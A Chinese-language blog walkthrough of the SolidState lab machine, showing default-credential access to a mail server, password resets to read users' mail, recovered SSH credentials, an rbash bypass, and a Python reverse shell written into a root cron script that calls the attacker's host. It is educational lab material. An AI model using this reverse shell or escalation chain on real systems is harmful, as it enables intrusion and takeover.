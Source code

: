```yaml
---
layout: post
title:  "vulnhub >_ SolidState"
description: walkthrough
category: vulnhub
---
```

# SolidState

![image-20200617022024782]({{ site.url }}/assets/SolidState.assets/image-20200617022024782.png)



![image-20200617022457513]({{ site.url }}/assets/SolidState.assets/image-20200617022457513.png)

![image-20200617022629960]({{ site.url }}/assets/SolidState.assets/image-20200617022629960.png)

默认凭证直接进入

![image-20200617022731092]({{ site.url }}/assets/SolidState.assets/image-20200617022731092.png)

直接改所有人的密码，为下一步准备

![image-20200617022948417]({{ site.url }}/assets/SolidState.assets/image-20200617022948417.png)

用修改后的凭证进入邮件系统

![image-20200617023131902]({{ site.url }}/assets/SolidState.assets/image-20200617023131902.png)

逐个用户查阅每一封邮件，最终mindy的第二封邮件得到ssh凭证

![image-20200617023258879]({{ site.url }}/assets/SolidState.assets/image-20200617023258879.png)

```bash
username: mindy
pass: P@55W0rd1!2@
```

![image-20200617023503792]({{ site.url }}/assets/SolidState.assets/image-20200617023503792.png)

rbash，重新登录带参数用以绕过

```bash
ssh mindy@10.10.10.130 'bash --noprofile'
```

![image-20200617024319230]({{ site.url }}/assets/SolidState.assets/image-20200617024319230.png)

在opt目录下找到一个全局可写的脚本

![image-20200617025847107]({{ site.url }}/assets/SolidState.assets/image-20200617025847107.png)

看脚本是执行清除tmp下面的文件

![image-20200617030144197]({{ site.url }}/assets/SolidState.assets/image-20200617030144197.png)

但考虑到它被写成如果只有root可以运行它，并属于root，这表明root用户可能有一个cron作业设置了这个脚本。


这里我们需要制作rshell，因为在目标shell种打开vim等编辑器，难以正常输入。有另外一个技巧，就是在本地编辑好之后，直接复制代码黏贴到目标种

```bash
#!/usr/bin/env python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.128",1338))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```

现在本地写好脚本
然后vi tmp.py
进入之后按ESC进入命令行模式 输入 :.,$d 删除所有行
再按 i  进入编辑模式    直接粘贴
再按 ESC 进入命令行模式 
输入 :wq 保存退出

然后设立监听，等待即可得到root shell

![image-20200617030630878]({{ site.url }}/assets/SolidState.assets/image-20200617030630878.png)